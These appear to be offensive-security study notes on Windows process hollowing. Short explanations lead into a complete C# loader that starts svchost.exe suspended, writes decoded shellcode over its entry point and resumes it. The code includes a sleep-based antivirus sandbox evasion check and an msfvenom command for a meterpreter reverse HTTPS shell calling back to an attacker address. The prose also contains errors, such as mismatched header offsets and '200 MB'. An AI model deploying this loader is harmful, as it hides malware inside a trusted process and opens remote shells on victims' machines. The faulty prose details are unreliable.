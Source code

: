 # CREATE_SUSPENDED flag

Create a new process in a suspended state

# CreateProcess

1. Creates a virtual memory space for the new process
2. Allocates the stack along with the TEB and PEB
3. Loads required DLLs and EXE into memory

If we pass `CREATE_SUSPENDED` to `CreateProcess`, the process is halted before it runs the entry point

We need to overwrite the Entry Point with shellcode and resume the execution

We can turn to `ZwQueryInformationProcess` to retrieve information about a process including its PEB address

From the PEB, we can get the base address to parse the PE headers and locate the entry point

For `ZwQueryInformationProcess`, we pass an enum `ProcessBasicInformation` to obtain the PEB of a suspended process

We can find the base address of an executable at offset `0x10` into the PEB

Then we read the PEB address using `ReadProcessMemory` using offset `0x10` 

# Process Hollowing Process

Begin with the base address found

Use `ReadProcessMmeory` to read the first 200 MB of memory

Now we read the `e_lfsnew` at offset `0x30` Offset of the beginning of the PE image base, to the PE header

It is given as Offset `0x80` which identifies the start of the PE header

Now we can read the RVA of entry point at `0x28` which needs to be added to the remote process base address to obtain the absolute virtual memory address of the entry point

# Process Hollowing in C Sharp

#### C# Signature for CreateProcessW API
```csharp
[DllImport("kernel32.dll", SetLastError = true, CharSet = CharSet.Ansi)]
static extern bool CreateProcess(string lpApplicationName, string lpCommandLine,
IntPtr lpProcessAttributes, IntPtr lpThreadAttributes, bool bInheritHandles,
uint dwCreationFlags, IntPtr lpEnvironment, string lpCurrentDirectory,
[In] ref STARTUPINFO lpStartupInfo, out PROCESS_INFORMATION
lpProcessInformation);
 ```

#### C# STARTUPINFO struct
```csharp
[StructLayout(LayoutKind.Sequential, CharSet = CharSet.Auto)]
struct STARTUPINFO
{
     public Int32 cb;
     public IntPtr lpReserved;
     public IntPtr lpDesktop;
     public IntPtr lpTitle;
     public Int32 dwX;
     public Int32 dwY;
     public Int32 dwXSize;
     public Int32 dwYSize;
     public Int32 dwXCountChars;
     public Int32 dwYCountChars;
     public Int32 dwFillAttribute;
     public Int32 dwFlags;
     public Int16 wShowWindow;
     public Int16 cbReserved2;
     public IntPtr lpReserved2;
     public IntPtr hStdInput;
     public IntPtr hStdOutput;
     public IntPtr hStdError;
}
```

#### C# PROCESS_INFORMATION struct
```csharp
[StructLayout(LayoutKind.Sequential)]
internal struct PROCESS_INFORMATION
{
   public IntPtr hProcess;
   public IntPtr hThread;
   public int dwProcessId;
   public int dwThreadId;
}
```

#### Process Hollowing
```csharp
using System;
using System.Runtime.InteropServices;

namespace ProcessHollowing
{
    public class Program
    {
        public const uint CREATE_SUSPENDED = 0x4;
        public const int PROCESSBASICINFORMATION = 0;

        [StructLayout(LayoutKind.Sequential, CharSet = CharSet.Auto)]
        public struct ProcessInfo
        {
            public IntPtr hProcess;
            public IntPtr hThread;
            public Int32 ProcessId;
            public Int32 ThreadId;
        }

        [StructLayout(LayoutKind.Sequential, CharSet = CharSet.Auto)]
        public struct StartupInfo
        {
            public uint cb;
            public string lpReserved;
            public string lpDesktop;
            public string lpTitle;
            public uint dwX;
            public uint dwY;
            public uint dwXSize;
            public uint dwYSize;
            public uint dwXCountChars;
            public uint dwYCountChars;
            public uint dwFillAttribute;
            public uint dwFlags;
            public short wShowWindow;
            public short cbReserved2;
            public IntPtr lpReserved2;
            public IntPtr hStdInput;
            public IntPtr hStdOutput;
            public IntPtr hStdError;
        }

        [StructLayout(LayoutKind.Sequential)]
        internal struct ProcessBasicInfo
        {
            public IntPtr Reserved1;
            public IntPtr PebAddress;
            public IntPtr Reserved2;
            public IntPtr Reserved3;
            public IntPtr UniquePid;
            public IntPtr MoreReserved;
        }

        [DllImport("kernel32.dll")]
        static extern void Sleep(uint dwMilliseconds);

        [DllImport("kernel32.dll", SetLastError = true, CharSet = CharSet.Ansi)]
        static extern bool CreateProcess(string lpApplicationName, string lpCommandLine, IntPtr lpProcessAttributes,
            IntPtr lpThreadAttributes, bool bInheritHandles, uint dwCreationFlags, IntPtr lpEnvironment, string lpCurrentDirectory,
            [In] ref StartupInfo lpStartupInfo, out ProcessInfo lpProcessInformation);

        [DllImport("ntdll.dll", CallingConvention = CallingConvention.StdCall)]
        private static extern int ZwQueryInformationProcess(IntPtr hProcess, int procInformationClass,
            ref ProcessBasicInfo procInformation, uint ProcInfoLen, ref uint retlen);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern bool ReadProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, [Out] byte[] lpBuffer,
            int dwSize, out IntPtr lpNumberOfbytesRW);

        [DllImport("kernel32.dll", SetLastError = true)]
        public static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern uint ResumeThread(IntPtr hThread);

        public static void Main(string[] args)
        {
            // AV evasion: Sleep for 10s and detect if time really passed
            DateTime t1 = DateTime.Now;
            Sleep(10000);
            double deltaT = DateTime.Now.Subtract(t1).TotalSeconds;
            if (deltaT < 9.5)
            {
                return;
            }

            // sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.100.9.16 LPORT=446 -f csharp --encrypt xor --encrypt-key s
            byte[] buf = new byte[692] {};

            for (int i = 0; i < buf.Length; i++)
            {
                buf[i] = (byte)(buf[i] ^ (byte)'s');
            }

            // Start 'svchost.exe' in a suspended state
            StartupInfo sInfo = new StartupInfo();
            ProcessInfo pInfo = new ProcessInfo();
            bool cResult = CreateProcess(null, "c:\\windows\\system32\\svchost.exe", IntPtr.Zero, IntPtr.Zero,
                false, CREATE_SUSPENDED, IntPtr.Zero, null, ref sInfo, out pInfo);

            // Get Process Environment Block (PEB) memory address of suspended process (offset 0x10 from base image)
            ProcessBasicInfo pbInfo = new ProcessBasicInfo();
            uint retLen = new uint();
            long qResult = ZwQueryInformationProcess(pInfo.hProcess, PROCESSBASICINFORMATION, ref pbInfo, (uint)(IntPtr.Size * 6), ref retLen);
            IntPtr baseImageAddr = (IntPtr)((Int64)pbInfo.PebAddress + 0x10);

            // Get entry point of the actual process executable
            // This one is a bit complicated, because this address differs for each process (due to Address Space Layout Randomization (ASLR))
            // From the PEB (address we got in last call), we have to do the following:
            // 1. Read executable address from first 8 bytes (Int64, offset 0) of PEB and read data chunk for further processing
            // 2. Read the field 'e_lfanew', 4 bytes at offset 0x3C from executable address to get the offset for the PE header
            // 3. Take the memory at this PE header add an offset of 0x28 to get the Entrypoint Relative Virtual Address (RVA) offset
            // 4. Read the value at the RVA offset address to get the offset of the executable entrypoint from the executable address
            // 5. Get the absolute address of the entrypoint by adding this value to the base executable address. Success!

            // 1. Read executable address from first 8 bytes (Int64, offset 0) of PEB and read data chunk for further processing
            byte[] procAddr = new byte[0x8];
            byte[] dataBuf = new byte[0x200];
            IntPtr bytesRW = new IntPtr();
            bool result = ReadProcessMemory(pInfo.hProcess, baseImageAddr, procAddr, procAddr.Length, out bytesRW);
            IntPtr executableAddress = (IntPtr)BitConverter.ToInt64(procAddr, 0);
            result = ReadProcessMemory(pInfo.hProcess, executableAddress, dataBuf, dataBuf.Length, out bytesRW);

            // 2. Read the field 'e_lfanew', 4 bytes (UInt32) at offset 0x3C from executable address to get the offset for the PE header
            uint e_lfanew = BitConverter.ToUInt32(dataBuf, 0x3c);

            // 3. Take the memory at this PE header add an offset of 0x28 to get the Entrypoint Relative Virtual Address (RVA) offset
            uint rvaOffset = e_lfanew + 0x28;

            // 4. Read the 4 bytes (UInt32) at the RVA offset to get the offset of the executable entrypoint from the executable address
            uint rva = BitConverter.ToUInt32(dataBuf, (int)rvaOffset);

            // 5. Get the absolute address of the entrypoint by adding this value to the base executable address. Success!
            IntPtr entrypointAddr = (IntPtr)((Int64)executableAddress + rva);

            // Overwrite the memory at the identified address to 'hijack' the entrypoint of the executable
            result = WriteProcessMemory(pInfo.hProcess, entrypointAddr, buf, buf.Length, out bytesRW);

            // Resume the thread to trigger our payload
            uint rResult = ResumeThread(pInfo.hThread);
        }
    }
}
```